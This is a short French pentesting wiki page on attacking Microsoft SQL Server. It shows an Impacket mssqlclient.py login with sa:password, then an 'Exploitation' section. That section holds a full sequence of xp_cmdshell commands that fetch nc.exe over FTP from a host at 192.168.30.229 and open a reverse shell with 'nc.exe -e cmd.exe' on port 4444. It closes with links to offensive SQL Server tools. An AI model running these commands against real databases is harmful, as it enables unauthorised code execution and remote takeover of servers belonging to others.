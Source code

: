 ```yaml
---
title: Microsoft SQL Server
permalink: /Microsoft_SQL_Server/
---
```


# Microsoft SQL Server

Utilisation
-----------

### Connexion

Impacket posséde un outil *mssqlclient.py*. L'exemple suivant permet de se connecter avec sa/password et d'executer les commandes contenues dans *commands.txt*:

``` bash
mssqlclient.py -port 27900 sa:password@192.168.31.227 -file commands.txt
```

### Commandes utiles

Exploitation
------------

### Créer un reverse shell

Les commandes suivantes créent un reverse shell en téléchargeant netcat depuis un serveur FTP.

``` text
EXEC master.dbo.xp_cmdshell 'echo open 192.168.30.229> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo USER user>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo 12345>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bin>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo GET nc.exe>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'echo bye>> ftp.txt';
EXEC master.dbo.xp_cmdshell 'ftp -v -n -s:ftp.txt';
EXEC master.dbo.xp_cmdshell 'nc.exe -nv 192.168.30.229 4444 -e cmd.exe';
```

Ressources
----------

### Vidéos

- [Hacking SQL Servers on Scale using PowerShell](https://www.youtube.com/watch?v=npoORzfP7rw&feature=youtu.be)

### Outils

- [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
- [SQL Server Link Crawling with PowerUpSQL](https://blog.netspi.com/sql-server-link-crawling-powerupsql/)
